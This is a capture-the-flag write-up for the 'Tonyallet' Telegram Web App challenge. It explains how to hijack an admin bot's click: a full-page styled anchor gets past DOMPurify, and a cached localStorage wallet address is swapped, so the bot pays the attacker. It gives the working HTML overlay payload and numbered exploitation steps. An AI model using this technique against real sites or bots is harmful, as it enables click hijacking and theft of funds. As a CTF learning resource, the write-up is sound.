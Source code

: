 # Tonyallet

> [!NOTE]
> Easy | 29 solves

>   Tony Ads #2 After his DeFi dreams crashed, Tony pivoted to SocialFi, crafting a buzzword-laden pitch that had VCs practically throwing money at him, all while he secretly chuckled at the irony of his newfound success.
    Ping @tonyalletbot on Telegram! You can also report posts at https://tonyallet-us-report.ctf.so/



## Analysis
In the description, we are given a Telegram bot, and if we access it, we will see that it uses Telegram Web Apps.
![](./webapp.jpg)


Telegram Web Apps are simply web pages with a special SDK embedded. To open this page in your browser, you just need to open the web version of Telegram and copy the address of the iframe window.

![](./iframe.jpg)

Now we need to look at the admin bot's logic:

1. It will go to the `post_id` that we provided.
   ```python
        selenium_obj.get(f"{host}/post?id={post_id}")
   ```
2. It will click the button at the top of the screen to go back.
   ```python
    screen_width = selenium_obj.execute_script("return window.screen.width;")
    ActionChains(selenium_obj) \
        .move_by_offset(screen_width / 2, 10) \
        .click() \
        .perform()
   ```
3. It will open the main page with its Telegram data.
   ```python
    selenium_obj.get(f"{host}/#tgWebAppData=" + open("tgWebApp.txt").read())
   ```
4. It will copy the wallet address and transfer the money to it.
   ```python
    wallet_address = selenium_obj.find_element(By.ID, "walletAddress").text
    if not re.match(r"^0x[a-fA-F0-9]{40}$", wallet_address):
        return "Failed to get wallet address"
    # send 0.1 ether to the wallet address
    os.system(f"cast send --private-key {os.getenv('PRIVATE_KEY')} {wallet_address} --value 0.1ether --rpc-url {os.getenv('RPC_URL')}")
    ```


To obtain the flag, we need to substitute the address and get the money transferred to our account.

Let's check main page again. The function `getWallet` is called without passing any arguments to retrieve the address on the page.

If you look at the function's code, you can notice that if the bypass argument is not passed, it will use the previously saved value:
```js
async function getWallet(bypass=false) {
    let localAddress = localStorage.getItem("walletAddress")
    if (localAddress && !bypass) {
        document.getElementById('walletAddress').textContent = localAddress;
        return
    }
```

Therefore, in order to substitute the address, we just need to open the page with our tgWebAppData before the admin does, and the saved address displayed on their page will be ours, not theirs.

Now, if we look at the source code of the page with the post, we can see that it inserts the description of our post into the HTML, but before that, it goes through DOMPurify:

```js
postDetails.innerHTML = DOMPurify.sanitize(
`
<h3>${data.title}</h3>
<p>${data.content}</p>
<p>Author Hash: ${data.author}</p>
<p>Timestamp: ${new Date().toISOString()}</p>
`, { USE_PROFILES: { html: true } }
);
```

This prevents us from executing XSS, but we only need to open the page. We know that the admin bot will click on the top of it. In its standard configuration, DOMPurify does not remove inline styles from elements, which allows us to create an HTML tag that occupies the entire page. By using the z-index style, we can place it above all other tags so that the bot clicks on it instead of the 'back' button as expected:
```html
<a style="position: absolute;z-index:99999;left:0;top:0;width:100000px;height:10000px" href="//neplox.neplox">neplox</a>
```


## Solution
1. Open @tonyalletbot in web telegram.
2. Open iframe in new tab ![](./iframe.jpg)
3. Add new post with content(replace tgWebAppData with your value):
```html
<a style="position: absolute;z-index:99999;left:0;top:0;width:100000px;height:10000px" href="https://tonyallet-us.ctf.so/#tgWebAppData=YOUR_DATA">neplox</a>
```
4. Check the post at `https://tonyallet-us.ctf.so/post?id=YOUR_POST_ID`, you will see that button fills the entire page ![](./post.jpg)
5. Send post to admin bot via
6. Wait untill admin bot visit your page and refresh you wallet.
7. Check request to /wallet route


Aaand, the flag is captured! 🚩

![Flag captured](./flag.jpg)
